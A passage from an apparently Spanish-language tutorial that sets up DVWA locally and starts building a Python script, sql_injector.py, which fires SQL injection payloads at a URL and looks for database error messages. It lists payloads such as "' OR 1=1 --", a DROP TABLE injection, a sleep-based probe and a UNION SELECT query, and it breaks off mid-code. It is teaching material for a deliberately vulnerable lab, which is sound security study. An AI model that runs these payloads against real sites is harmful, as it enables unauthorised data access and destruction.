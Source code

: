 ```bash
git clone https://github.com/digininja/DVWA.git
```

3. Inicia Apache y MySQL desde el panel de XAMPP.

4. Accede en tu navegador a:
   `http://localhost/DVWA/setup.php`

5. Haz clic en “Create/Reset Database”.

6. En la configuración de DVWA (`config/config.inc.php`) pon:

```php
$_DVWA[ 'security_level' ] = 'low';
```

---

### 🐍 Instalar dependencias de Python

```bash
pip install requests colorama
```

---

### 🔍 Fase 1: Escaneo SQL Injection

Vamos a enviar **payloads comunes de inyección** a una URL y detectar si hay errores en la respuesta.

#### 🧪 Payloads comunes:

```python
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "'; DROP TABLE users; --",
    "' OR sleep(3)--",
    "\" OR \"1\"=\"1"
]
```

---

### 🧾 Código completo: `sql_injector.py`

```python
import requests
import urllib.parse
import re
from colorama import Fore, Style

# Payloads SQL típicos
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "\" OR \"1\"=\"1",
    "' OR sleep(3)--",
    "' AND 1=2 UNION SELECT NULL, version()--"
]

# Palabras clave que indican error SQL
sql_errors = [
    "You have an error in your SQL syntax",
    "Warning: mysql_",
    "Unclosed quotation mark",
    "quoted string not properly terminated",
```